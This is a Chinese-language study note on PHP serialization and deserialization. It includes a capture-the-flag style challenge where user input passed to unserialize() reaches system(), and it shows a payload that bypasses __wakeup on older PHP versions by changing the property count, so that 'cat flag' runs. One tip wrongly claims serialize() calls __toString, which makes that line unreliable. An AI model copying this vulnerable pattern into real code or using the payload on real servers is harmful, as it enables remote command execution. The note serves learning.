



## 概念

要了解`反序列化（unserialize）`，就应该先了解`序列化（serialize）`

> 序列化是将数据结构或对象转换成一种特定格式的字节序列的过程。

乍一看还是有点抽象，我们可以通过下面这个示例来大致理解一下

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 
class Student {
    public $name;
    public $age;
    public $scores;

    public function __construct($name, $age, $scores) {
        $this->name = $name;
        $this->age = $age;
        $this->scores = $scores;
    }

    public function __toString() {
        return "Name: {$this->name}, Age: {$this->age}, Scores: " . implode(', ', $this->scores);
    }
}

// 创建一个 Student 对象
$student = new Student("张三", 20, [85, 90, 78]);

// 序列化对象
$serializedStudent = serialize($student);
echo "序列化后的字符串:";
echo $serializedStudent;

echo '<br>';

// 反序列化对象
$unserializedStudent = unserialize($serializedStudent);
echo "反序列化后的对象:";
echo $unserializedStudent;
?>
```


> [!tip]
> `__toString() 的作用`
>
>
> __toString( ) 是 PHP 中的一个魔术方法（Magic Method），它是 PHP 面向对象编程中的一个重要特性。__toString( ) 的作用是定义一个类在被转换为字符串时的行为。当尝试将一个对象直接用于字符串上下文（例如回显、字符串拼接等）时，PHP 会自动调用该对象的 __toString( ) 方法。（例如上述代码中的`serialize($student)`）


得到的输出结果如下



```serialize
O:7:"Student":3:{s:4:"name";s:6:"张三";s:3:"age";i:20;s:6:"scores";a:3:{i:0;i:85;i:1;i:90;i:2;i:78;}}
```

```unserialize
Name: 张三, Age: 20, Scores: 85, 90, 78
```


分析序列化得到的字符串，它的组成大致可以这样理解：

> **1. 对象标识**  O:长度:"类名":属性数:{...}

`O`代表`Student`是一个Obejct(对象)，字符串长度为`7`，有`3`个属性：name,age,scores

> **2. 成员属性**  键类型:键长度:"键名";值类型:值...

`s`即string，`i`即integer

## 实战

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

class begin{
    public $unf01d="beginning";
    public function cmd($a){
        system($a);
    }
    public function __wakeup(){
        $this->unf01d="end";
    }
    public function __destruct(){
        $this->cmd($this->unf01d);
    }
}
$cmd=$_GET['cmd'];
unserialize($cmd);
?>
```

> [!tip]
> system( )与exec( )类似，也可以调用系统指令
>
> `__wakeup()`是一个魔术方法，在反序列化的时候会优先调用它


而我们要起到我们的目的，就必须绕开__wakeup( )

> [!warning]
> 此绕过方法只适用于部分版本的PHP
>
> PHP5 < 5.6.25 
>
> PHP7 < 7.0.10

如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过

::: code-tabs

@tab crack.php

```php
<?php
class begin {
    public $unf01d = ""; //目标指令
}

$payload = serialize(new begin());
echo $payload;
?>

```
:::

由此构造出payload,将`1`改为`2`



```payload
O:5:"begin":2:{s:6:"unf01d";s:8:"cat flag";}
```

上传就可以得到flag




## 总结

之后还将加深对魔术方法调用顺序的理解，以及学习其他绕过__wakeup()的方法

